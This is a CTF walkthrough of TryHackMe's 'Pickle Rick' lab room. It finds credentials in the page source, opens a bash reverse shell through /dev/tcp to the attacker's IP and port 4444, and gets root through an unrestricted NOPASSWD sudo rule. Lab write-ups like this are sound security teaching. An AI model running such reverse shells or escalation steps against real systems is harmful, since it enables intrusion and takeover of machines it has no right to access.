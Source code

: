 ```yaml
---
title: "Pickle Rick CTF - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.jpeg
excerpt: "Writeup for the Pickle Rick CTF on TryHackMe"
---
```


[TryHackMe | Pickle Rick CTF](https://tryhackme.com/room/picklerick)

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Setup

<div className="Image__Medium">
  <img src="https://imgur.com/rM9j9mn.png" alt="blog_image" />
</div>

```bash
Note to self, remember username!

Username: R1ckRul3s
```

<div className="Image__Medium">
  <img src="https://imgur.com/lUU7tXN.png" alt="blog_image" />
</div>

```bash
Maybe a password ?
Wubbalubbadubdub
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtHHGaE.png" alt="blog_image" />
</div>

```bash
Account:
R1ckRul3s:Wubbalubbadubdub
```

### #1 Deploy the virtual machine on this task and explore the web application. What is the first ingredient Rick needs?

<div className="Image__Medium">
  <img src="https://imgur.com/1vWZUA9.png" alt="blog_image" />
</div>

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/J5cZERN.png" alt="blog_image" />
</div>

Let's try something else then ...

[bash | GTFOBins](https://gtfobins.github.io/gtfobins/bash/)

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.2.228/4444 <&1'
```

```bash
www-data@ip-10-10-91-207:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
www-data@ip-10-10-91-207:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

### #2 Whats the second ingredient Rick needs?

When you are in root you can't cd in the directory so I used the less command like so.

```bash
less /home/rick/"second ingredients"
1 jerry tear
```

### #3 Whats the final ingredient Rick needs?

```bash
www-data@ip-10-10-91-207:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-91-207.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-91-207.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-91-207:/var/www/html$ sudo su
cd /root/
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/GAKz5CS.png" alt="TryhackMeProfile" />
  </a>
</center>
